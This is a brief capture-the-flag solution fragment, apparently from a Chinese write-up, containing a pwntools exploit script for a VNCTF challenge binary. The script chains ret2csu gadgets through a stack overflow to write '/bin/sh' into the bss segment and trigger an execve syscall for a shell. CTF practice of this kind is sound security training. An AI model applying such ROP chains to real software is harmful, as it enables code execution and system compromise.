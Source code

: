 <img src="/upload/img/image-20220411122413311.png" alt="image-20220411122413311" style="zoom:50%;" />



Exp如下：
```python
#coding:utf-8
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')
p=process('./a')
e=ELF('./a')
pop_rdi_addr=0x4007f3
print('pid'+str(proc.pidof(p)))
offset=0x60
syscall_addr=0x40077E
write_addr=0x400773
csu_gadget1=0x4007EA
csu_gadget2=0x4007D0
term_proc=0x600e50
bss_addr=0x601060
payload=(offset+8)*'a'
payload+=p64(csu_gadget1)
payload+=p64(0) #rbx
payload+=p64(1)#rbp
payload+=p64(term_proc)#r12 空函数#第一次ret2csu的目的是传read函数参数，并且在最后的ret去执行系统调用，第一次不需要用到call，因此call一个空函数
payload+=p64(59)#r13 rdx #执行一次syscall之后，rax就变成了0x3b
payload+=p64(bss_addr)#r14  #rsi  #将/bin/sh写入bss段
payload+=p64(0)#r15  #rdi
payload+=p64(csu_gadget2)
payload+='a'*8#下面的48个数据不用垃圾填充，直接进行下一轮涉及参数，这8个垃圾数据填充的是add rsp,8
payload+=p64(0)
payload+=p64(1)
payload+=p64(bss_addr+0x8)#此时用call来执行输入到bss段里的syscall
payload+=p64(0)
payload+=p64(0)
payload+=p64(bss_addr)
payload+=p64(syscall_addr)
payload+=p64(csu_gadget2)
p.sendafter('Welcome to VNCTF! This is a easy competition.///\n',payload)
payload='/bin/sh\x00'+p64(syscall_addr)+'\x00'.ljust(59,'\x00')#这里一定要凑齐59，使得read函数的返回值，也就是让rax变成59
p.sendline(payload)
p.interactive()
```

